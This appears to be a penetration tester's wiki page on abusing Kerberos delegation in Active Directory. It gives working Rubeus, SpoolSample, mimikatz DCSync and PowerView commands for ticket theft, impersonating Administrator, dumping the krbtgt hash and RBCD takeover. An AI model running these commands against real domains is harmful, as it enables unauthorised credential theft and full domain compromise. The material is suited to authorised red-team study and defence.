 ```yaml
---
title: Active directory exploitation
tags:
  - breach
  - operations
  - active
  - directory
  - kerberos
  - unconstrained
  - delegation
---
```


## Exploiting unconstrained delegation

**Unconstrained delegation** is a concept in Active Directory where a service
principal is trusted to make **Ticket Granting Service (TGS)** requests to a
**Key Distribution Center (KDC)** on-behalf-of of another entity. Essentially,
an entity will request a **forwardable** **Ticket Granting Ticket (TGT)** from
the KDC and then a TGS for a service principal. When making a request to a
service principal where we expect the service to make another request on our
behalf, we provide both the TGT and the TGS for the request.

The service will use our TGT to request another TGS from the KDC, and execute
actions against a second service in the context of our user. If we can
compromise a service that has unconstrained delegation, we can dump forwardable
TGTs from memory and make requests to other services on behalf of the user(s) we
compromised.

### Coercing authentication

If a machine or service principal we've compromised has the unconstrained
delegation privilege, using the **SpoolSample.exe** application referenced in
[[windows-privilege-escalation|Windows privilege escalation]], we can coerce
other entities to authenticate to us with a forwardable TGT. We can then dump
the victim's TGT from our ticket cache and abuse it to move laterally throughout
the domain.

Using **Rubeus.exe** referenced in [[windows-credentials|Windows credentials]],
we can monitor tickets for a user by invoking the following:

```powershell
Rubeus.exe monitor /interval:5 /filteruser:${USER_PRINCIPAL_NAME}
```

Using SpoolSample.exe, we can coerce a target to establish a connection to our
print spooler pipe by invoking the following:

```powershell
SpoolSample.exe ${TARGET_SERVER} ${CAPTURE_SERVER}
```

Once we found a ticket, we can **Pass the Ticket (PTT)** and cache it into
memory with Rubeus:

```
Rubeus.exe ptt /ticket:${TICKET_HASH}
```

For example, if we manage to get a forwardable TGT for the Domain Controller, we
can use **mimikatz** to dump NTLM hashes of any user in the domain:

```powershell
lsadump::dcsyn /domain:${DOMAIN} /user:${DOMAIN}\krbtgt
```

Once we acquire the NTLM hash of the **krbtgt** service principal, we can craft
a golden ticket to obtain access to any resource in the domain.

## Constrained delegation

**Constrained delegation** restricts an entity to conduct on-behalf-of
authentication only to service principals listed in its
`msds-allowedtodelegateto` property. Microsoft offers the `S4U2Self` and
`S4U2proxy` extensions to request a service ticket on second-hop services on
behalf of a user. Still, if we've compromised the host that has constrained
delegation, we can still abuse this property to pivot to other hosts in the
domain.

Given a TGT for a service that has constrained delegation permissions, we can
execute the following with Rubeus to impersonate users for other service
principals:

```powershell
Rubeus.exe s4u /ticket:${TGT_HASH} /impersonateuser:Administrator /msdsspn:${SERVICE_PRINCIPAL_NAME} /ptt
```

We can also target alternative service principals like so:

```powershell
Rubeus.exe s4u /ticket:${TGT_HASH} /impersonateuser:Administrator /msdsspn:${SERVICE_PRINCIPAL_NAME} /altservice:CIFS /ptt
```

## Resource-based constrained delegation

**Resource-based constrained delegation** reverses the privilege requirements to
enable delegation. Instead of Domain Administrators configuring delegation
privileges, a backend service can use the
`msds-allowedtoactonbehalfofotheridentity` property to specify which service
principals the backend service will request TGSs to the KDC on-behalf-of. We
require `GenericWrite` on the backend service to set this property.

The `msds-allowedtoactonbehalfofotheridentity` property cannot be used for user
principals, however, it can be set for machine accounts. If we have
`GenericWrite` permissions, we can execute the following procedures to abuse the
property. Using cmdlets from the **PowerView** toolkit mentioned in
[[attacking-active-directory-certificate-services|Attacking Active Directory certificate servces]],
we can determine if we can create new machine objects in the domain and create a
new machine account:

```powershell
Get-DomainObject -Identity ${DOMAIN} -Properties ms-DS-MachineAccountQuota
# Check to see if there are machines available in the quota
New-MachineAccount `
	-MachineAccount ${NEW_COMPUTER_NAME} `
	-Password $(ConvertTo-SecureString ${PASSWORD} -AsPlainText -Force)
```

Using the following PowerShell, we'll set the
`msds-allowedtoactonbehalfofotheridentity  property on the machine we have `GenericWrite`
permissions for for the machine we just created:

```powershell
$sid = Get-DomainComputer `
	-Identity ${NEW_COMPUTER_NAME} `
	-Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor `
	-ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

Get-DomainComputer -Identity ${VICTIM_COMPUTER_NAME} | Set-DomainObject `
	-Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

Using Rubeus, we can initiate a TGT request on behalf of our new computer, using
its password hash, to initiate S4U2self and S4U2proxy to impersonate another
user for the target backend service that we just set
`msds-allowedtoactonbehalfofotheridentity` permissions for:

```powershell
# Get password hash
Rubeus.exe hash /password:${PASSWORD}

# Impersonate user on backend service that acts on behalf of new computer
Rubeus.exe s4u `
	/user:${NEW_COMPUTER_NAME} `
	/rc4:${PASSWORD_HASH} `
	/impersonateuser:Administrator `
	/msdsspn:CIFS/${BACKEND_SERVER} `
	/ptt
```

## Related pages

- [[attacking-active-directory-certificate-services|Attacking Active Directory certificate services]]
- [[windows-credentials|Windows credentials]]
- [[windows-privilege-escalation|Windows privilege escalation]]
